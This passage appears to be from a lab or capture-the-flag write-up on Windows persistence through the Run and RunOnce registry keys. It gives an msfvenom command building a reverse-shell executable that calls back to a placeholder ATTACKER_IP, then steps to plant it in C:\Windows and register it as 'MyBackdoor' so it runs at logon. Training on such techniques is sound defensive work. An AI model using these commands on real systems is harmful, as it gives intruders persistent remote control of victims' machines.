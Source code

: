 ### Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

* HKCU\Software\Microsoft\Windows\CurrentVersion\Run
* HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
* HKLM\Software\Microsoft\Windows\CurrentVersion\Run
* HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe
```

After transferring it to the victim machine, let's move it to `C:\Windows\`:

```
move revshell.exe C:\Windows
```

Let's then create a REG_EXPAND_SZ registry entry under HKLM\Software\Microsoft\Windows\CurrentVersion\Run. The entry's name can be anything you like, and the value will be the command we want to execute.

**Note**: While in a real-world set-up you could use any name for your registry entry, for this task you are required to use `MyBackdoor` to receive the flag.

![task6-registry](./images/task6-registry.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10-20 seconds).

![task6-flag2](./images/task6-flag2.png)
